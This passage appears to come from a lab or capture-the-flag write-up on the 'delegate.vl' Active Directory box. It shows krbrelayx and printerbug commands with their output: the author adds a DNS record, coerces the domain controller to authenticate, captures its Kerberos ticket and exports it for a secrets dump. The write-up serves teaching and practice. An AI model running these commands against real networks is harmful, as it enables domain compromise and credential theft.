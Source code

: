 Now that we have the respective SPNs set for this exploit, we can move back to our Kali machine for the rest of the exploit.

We'll need to add the LDAP record to `delegate.vl` to ensure that when we force it to authenticate to our machine account, it will redirect back to our MITM `krbrelayx` handler.

```
└─$ python3 krbrelayx/dnstool.py -u 'delegate.vl\dazzad$' -p 'DazPassword123@' -r DAZZAD.delegate.vl -d (KALI IP) --action add -dns-ip 10.10.92.191 dc1.delegate.vl                        
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

Now that all of that is set, we can start our `krbrelayx` listener to listen for incoming requests.

```
└─$ python3 krbrelayx/krbrelayx.py --krbsalt 'DELEGATE\DAZ$' --krbpass 'DazPassword123@'
```

We'll then use `printerbug` to exploit the authentication coercion. This should force the DC to authenticate to our machine account, meaning the Kerberos TGT used to access our fake machine will be cached during the authentication exchange.

```
└─$ python3 krbrelayx/printerbug.py delegate.vl/'DAZ$':'DazPassword123@'@dc1.delegate.vl DAZZAD.delegate.vl
[*] Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Attempting to trigger authentication via rprn RPC at dc1.delegate.vl
[*] Bind OK
[*] Got handle
DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Triggered RPC backconnect, this may or may not have worked
```

While we do get an `access_denied` error, if you look back at our `krbrelayx` listener - it should have received the authentication attempt and cached the DC's service ticket in a `.ccache` file.

```
[*] Setting up DNS Server
[*] Servers started, waiting for connections
[*] SMBD: Received connection from 10.10.92.191
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

Now that we have the service ticket for the DC, we can import this into our Kerberos authentication global variable to dump the respective secrets. I opted to rename the ticket file just so that the special characters don't interfere with the global variable's interpretation of the file.

```
└─$ cp 'DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache' dc.ccache

└─$ export KRB5CCNAME=dc.ccache
```
